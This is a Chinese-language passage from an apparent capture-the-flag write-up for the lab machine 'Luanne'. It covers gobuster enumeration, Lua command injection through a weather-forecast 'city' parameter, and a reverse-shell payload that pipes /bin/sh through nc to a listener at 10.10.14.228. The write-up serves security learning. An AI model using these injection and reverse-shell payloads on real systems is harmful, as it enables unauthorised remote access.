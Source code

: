 `gobuster dir -u http://10.10.10.218/weather -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt dir -s '200,204,301,302,307,401,403' -e -x php,txt,py,html -t 100 -q`

![]({{ site.url }}/assets/Luanne_218.assets/20201206145850679_21342.png)

`http://10.10.10.218/weather/forecast`

![]({{ site.url }}/assets/Luanne_218.assets/20201206145949438_697.png)

可以根据提示列出城市

`http://10.10.10.218/weather/forecast?city=list`

![]({{ site.url }}/assets/Luanne_218.assets/20201206152044109_13281.png)

这个脚本刚才已经在9001端口看到了是个lua脚本

可以尝试命令注入

首先测试闭合符号

`10.10.10.218/weather/forecast?city=London");print("pwn`

![]({{ site.url }}/assets/Luanne_218.assets/20201206154311055_12143.png)

`http://10.10.10.218/weather/forecast?city=London%27);print(%27pwn`

![]({{ site.url }}/assets/Luanne_218.assets/20201206154228526_28078.png)

测试利用lua执行系统命令，在浏览器执行会一闪而过，但是能看到。抓包

`http://10.10.10.218/weather/forecast?city=London')%3bos.execute('ls+-la')--`

![]({{ site.url }}/assets/Luanne_218.assets/20201206155023133_1806.png)

替换payload，尝试得到shell

`London');os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.228 1337 >/tmp/f')--`

![]({{ site.url }}/assets/Luanne_218.assets/20201206155252444_5311.png)

![]({{ site.url }}/assets/Luanne_218.assets/20201206155317185_11381.png)

`os.execute('/bin/sh')`

![]({{ site.url }}/assets/Luanne_218.assets/20201206160639028_26533.png)

尝试了使用lua今天伪造tty但是失败，python没有

![]({{ site.url }}/assets/Luanne_218.assets/20201206160904783_8459.png)

之前一直线索在3000端口，首先来查看一下

`netstat -ant`

![]({{ site.url }}/assets/Luanne_218.assets/20201206161503738_7723.png)
